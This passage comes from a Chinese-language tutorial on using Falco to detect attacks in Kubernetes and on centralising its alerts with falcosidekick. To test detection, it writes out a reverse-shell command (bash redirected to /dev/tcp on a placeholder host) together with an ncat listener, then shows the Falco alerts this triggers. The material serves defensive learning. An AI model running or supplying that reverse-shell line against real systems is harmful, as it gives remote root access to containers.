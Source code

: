 #### 4.2.2 Shell 反弹验证

在来一台攻击的机器上启动 ncat：

```bash
  $ ncat -l -p 10000
  # 在 shell 反弹成功后可以拿到 Pod 的 shell 权限，界面如下：
  root@xxx:/#
```

在上个样例中我们登录的 Pod 中执行一下命令，那么在上述攻击的机器的命令行中就会得到该 Pod 的 shell 权限：

```bash
root@backend-05:/# bash -i >& /dev/tcp/a.b.c.d/10000 0>&1
```

对于这种行为 falco 可以进行检测和发现：

```bash
11:16:41.458470109: Notice Known system binary sent/received network traffic (user=root user_loginuid=-1 command=bash connection=IPA:58426->IPB:10000 
container_id=e6a37f5f7c33 image=xxx)

11:16:41.458523964: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 pod_name (id=e6a37f5f7c33) process=bash parent=bash cmdline=bash terminal=34816 container_id=e6a37f5f7c33 image=xxx fd.name=IPA:58426->IPB:10000 fd.num=1 fd.type=ipv4 fd.sip=IPA)

11:16:41.458525412: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 podname (id=e6a37f5f7c33) process=bash parent=bash cmdline=bash terminal=34816 container_id=e6a37f5f7c33 image=xxx fd.name=IPA:58426->IPB:10000 fd.num=1 fd.type=ipv4 fd.sip=IPA)
```

### 4.3 Falco 告警集中化配置

修改配置文件  falco.yaml, IP 地址需要根据自己的地址调整：

```yaml
json_output: true
json_include_output_property: true
http_output:
  enabled: true
  url: "http://172.17.0.14:2801/"
```

修改完配置以后重新加载，`kill -1 $(cat /var/run/falco.pid)`

然后启动 falcosidekick 和 falcosidekick-ui。

```bash
$ sudo docker run -d -p 2801:2801 -e WEBUI_URL=http://172.17.0.14:2802 falcosecurity/falcosidekick
$ sudo docker run -d -p 2802:2802 falcosecurity/falcosidekick-ui 

# 界面访问 http://ip:2802/ui
```

### 4.4 k8s audit 日志采集

falco 从 0.13 版本开始支持 k8s audit 日志，启动一个内部内嵌的服务端，用于接受 k8s audit 日志输出，这需要在 k8s 中定义相关的规则将 audit 日志提交至该服务，然后经相关规则定义后，输出可能触发的告警信息。
架构图如下：